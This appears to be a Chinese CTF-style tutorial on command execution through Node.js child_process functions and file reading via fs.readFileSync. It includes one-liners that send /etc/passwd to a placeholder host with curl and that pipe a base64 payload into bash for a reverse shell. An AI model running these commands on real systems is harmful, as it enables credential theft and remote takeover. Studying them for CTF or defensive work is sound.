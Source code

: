 ### child\_process模块中的命令执行

首先我们来了解一下什么是child\_process模块

child\_process模块提供了与popen(3)类似但不完全相同的方式衍生子进程的能力。该库通过创建管道、分叉和调用外壳来打开一个进程。child\_process提供了几种创建子进程的方式

-   异步方式：spawn、exec、execFile、fork
-   同步方式：spawnSync、execSync、execFileSync

#### exec

Node.js中的chile\_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令

```plain
require('child_process').exec('calc');
//弹出计算器
```

-   linux中的文件读取

```plain
require('child_process').exec('curl -F "x=`cat /etc/passwd`" http://vps');
```

-   反弹shell

```plain
require('child_process').exec('echo SHELL_BASE_64|base64 -d|bash');
```

#### execFile

```plain
require('child_process').execFile("calc",{shell:true});
```

#### fork

```plain
require('child_process').fork("./hacker.js");
```

#### spawn

```plain
require('child_process').spawn("calc",{shell:true});
```

### 文件读取

在2023网信柏鹭杯出现过一道类似的题，使用`fs.readFileSync`进行文件读取

要满足`fs.readFileSync`的数组格式读取需要满足以下条件

-   有`href`且非空
-   有`origin`且非空
-   `protocol` 等于`file:`
-   有`hostname`且等于空(Windwos下非空的话会进行远程加载)
-   有`pathname`且非空(读取的文件路径)
